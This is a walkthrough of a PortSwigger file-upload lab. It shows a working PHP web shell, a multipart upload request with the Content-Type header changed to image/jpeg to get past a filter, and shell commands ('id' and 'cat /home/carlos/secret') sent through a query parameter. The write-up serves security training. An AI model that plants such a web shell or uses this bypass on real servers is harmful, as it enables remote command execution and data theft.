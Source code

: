 ## Welcome, my friend. Today we will start the [2. File Upload lab](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass) in ```portswigger```

# Explain this Scenario:

## Scalable Web Shell

```
<?php echo system($_GET['command']); ?>
```

#### This code is an example of a ```"web shell"```, a type of malware that is uploaded to servers through security vulnerabilities.
#### The code executes operating system commands on the server. The command you want to execute is sent through the ```command``` parameter in the query.
#### For example, if you send the following query:


```
GET /example/exploit.php?command=id HTTP/1.1
```

### The ```id command``` will be executed on the server, which displays information about the user the server is running as.


<br>

#### When submitting an HTML form containing files, the browser typically uses the multipart/form-data content type to send binary data such as images or PDF documents.
#### Example of an HTTP request to send an image with a description and username:


```
POST /images HTTP/1.1
Host: normal-website.com
Content-Length: 12345
Content-Type: multipart/form-data; boundary=---------------------------012345678901234567890123456

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="image"; filename="example.jpg"
Content-Type: image/jpeg

[...binary content of example.jpg...]

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="description"

This is an interesting description of my image.

---------------------------012345678901234567890123456
Content-Disposition: form-data; name="username"

wiener
---------------------------012345678901234567890123456--
```

#### If the site only expects certain file types such as ```image/jpeg```, there could be a validation error if the actual file content is not checked. For example, you may change the ```Content-Type``` header to an image type, when in reality the file may be malicious ```PHP code```.


-----------


# Let's play this lab:

![image](https://github.com/user-attachments/assets/2b8bbbc7-6ad1-41cf-ada7-49b525cb80eb)


#### Let's log in to your own account using the following credentials: ```wiener:peter```

![image](https://github.com/user-attachments/assets/1b7229a1-3813-48f9-b6f0-0dcc0d603e78)


#### Let's create a php malicious payload in file ```tor.php```:

### within tor.php:

```
<?php
    echo system($_GET["tor"]);
?>
```

![image](https://github.com/user-attachments/assets/295203de-7776-489e-b02f-df7db4e826ee)

### Now, Let's upload this malicious payload to server.

![image](https://github.com/user-attachments/assets/e1fa4858-51f0-4b90-a01a-4e7a3293fd1c)

#### Hmm ,Sorry! REALY?

### ok Let's open the burp tool to explore what happen.


![image](https://github.com/user-attachments/assets/298a289d-82c8-45e0-b675-9a8a4a4bda21)

#### Well, The problem was due to the ```Content-Type: application/x-php``` , we change to:

```
Content-Type: image/jpeg
```

![image](https://github.com/user-attachments/assets/0ac3949f-9d11-4f39-9228-c80be0275940)

![image](https://github.com/user-attachments/assets/bf4abe63-d67c-4089-b4b1-369628adb855)

#### WOW! The file has been uploaded successfully.

### From Task 1, we explore that our file is within this path ```/files/avatars/file_name?parameter=command``` like this:

```
https://0a3a00ad03921d72824516a00044003b.web-security-academy.net/files/avatars/tor.php?tor=id
```

![image](https://github.com/user-attachments/assets/32eb46a6-8b08-44a0-8376-92d1bd146f76)

#### Ok this task requrie reach to /home/carlos/secret file.

```
/files/avatars/tor.php?tor=cat /home/carlos/secret
```

![image](https://github.com/user-attachments/assets/152c9789-1f5a-40d9-8beb-5a4a5d6ca5b9)


#### alert: this secret is douple, copy single secret only.
### Let's Submit this secret using the button provided in the lab banner. 

![image](https://github.com/user-attachments/assets/480e146d-455e-46cc-a485-545fc8909d77)

## Then ...

![image](https://github.com/user-attachments/assets/9646e54b-a0bf-4b91-89d1-a8b38cefd2ad)


### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/95f1297d-f437-4743-84db-6707975f81ba" >
</p>



















